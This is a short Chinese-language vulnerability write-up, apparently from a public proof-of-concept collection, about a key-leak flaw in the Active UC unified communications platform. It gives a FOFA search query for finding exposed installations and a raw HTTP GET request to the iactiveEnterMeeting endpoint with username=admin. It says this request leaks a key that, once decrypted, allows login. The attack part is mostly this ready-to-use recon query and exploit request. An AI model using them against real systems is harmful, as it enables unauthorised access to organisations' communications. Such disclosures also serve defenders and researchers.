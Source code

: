 # 网动统一通信平台iactiveEnterMeeting存在密钥泄露漏洞

# 一、漏洞简介
 网动统一通信平台是一个涵盖了多种通信功能的综合平台，通常包括文字、语音、视频通讯等功能，并且可能提供了一系列的通讯工具和服务。这样的平台通常旨在提升用户的沟通效率和便利性，为用户提供一个统一的通信环境。网动统一通信平台iactiveEnterMeeting存在密钥泄露漏洞

# 二、影响版本
+ 网动统一通信平台

# 三、资产测绘
+ fofa`title="网动统一通信平台(Active UC)"`
+ 特征

![1715181346183-38fe9fce-95da-4fcc-9444-e758323b5b48.png](./img/bchEO-h-HB8Wt1xO/1715181346183-38fe9fce-95da-4fcc-9444-e758323b5b48-583994.png)

---

# 四、漏洞复现
```http
GET /acenter/iactiveEnterMeeting.action?roomid=1&username=admin HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
```

![1728895972113-cd2610be-9b1a-425a-a4c5-db5f41756e26.png](./img/bchEO-h-HB8Wt1xO/1728895972113-cd2610be-9b1a-425a-a4c5-db5f41756e26-783469.png)

解密后可登录系统

![1728896161193-80cbf6bb-9a72-40fa-90e6-0b901c7ad4d7.png](./img/bchEO-h-HB8Wt1xO/1728896161193-80cbf6bb-9a72-40fa-90e6-0b901c7ad4d7-462992.png)



> 更新: 2024-10-22 09:40:55  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rq6gi25kn08phghs>